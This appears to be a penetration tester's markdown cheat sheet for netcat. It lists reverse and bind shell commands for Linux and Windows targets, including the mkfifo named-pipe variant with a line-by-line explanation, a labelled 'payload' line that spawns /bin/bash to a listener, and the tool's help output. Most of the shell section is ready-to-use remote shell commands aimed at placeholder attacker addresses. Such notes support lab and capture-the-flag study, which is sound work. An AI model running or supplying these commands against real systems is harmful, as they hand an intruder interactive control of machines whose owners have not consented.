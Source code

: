 ## Shells

#### Reverse shell - Listener on our machine

listen on our machine:
`nc -lvnp <port>`

connect with linux target:
`nc <ip> <port> -e /bin/bash`

if linux target nc does not have `-e`:
`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
*(explanation under bind shell)*

#### Bind shell - listener on target

listen on linux target:
`nc -lvnp <PORT> -e /bin/bash`

listen on windows target:
`nc -lvnp <PORT> -e "cmd.exe"`

if linux target nc does not have `-e`:
`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
- `mkfiko` creates a "named pipe", that is a special file that works as an io stream
- the named pipe output goes to nc
- the output of nc goes to a new shell
- both stdout and stderr of the new shell goes to nc
- the new shell are in other words us on the other computer
- when finished the names pipe file is deleted

connect with our machine:
`nc <ip> <port>`


### Help

```sh
┌──(kali㉿kali)-[~]
└─$ nc -h
[v1.10-47]
connect to somewhere:   nc [-options] hostname port[s] [ports] ... 
listen for inbound:     nc -l -p port [-options] [hostname] [port]
options:
        -c shell commands       as '-e'; use /bin/sh to exec [dangerous!!]
        -e filename             program to exec after connect [dangerous!!]
        -b                      allow broadcasts
        -g gateway              source-routing hop point[s], up to 8
        -G num                  source-routing pointer: 4, 8, 12, ...
        -h                      this cruft
        -i secs                 delay interval for lines sent, ports scanned
        -k                      set keepalive option on socket
        -l                      listen mode, for inbound connects
        -n                      numeric-only IP addresses, no DNS
        -o file                 hex dump of traffic
        -p port                 local port number
        -r                      randomize local and remote ports
        -q secs                 quit after EOF on stdin and delay of secs
        -s addr                 local source address
        -T tos                  set Type Of Service
        -t                      answer TELNET negotiation
        -u                      UDP mode
        -v                      verbose [use twice to be more verbose]
        -w secs                 timeout for connects and final net reads
        -C                      Send CRLF as line-ending
        -z                      zero-I/O mode [used for scanning]
port numbers can be individual or ranges: lo-hi [inclusive];
hyphens in port names must be backslash escaped (e.g. 'ftp\-data').
```


### More




send http request
`nc localhost 80`
GET / HTTP/1.1
(empty line)
or
echo -e "GET / HTTP/1.1\\r\\n\\r\\n" | nc localhost 80

local: nc -lvnp 9090
payload: "nc ip 9090 -e /bin/bash"

nc.exe available on kali at `/usr/share/windows-resources/binaries`

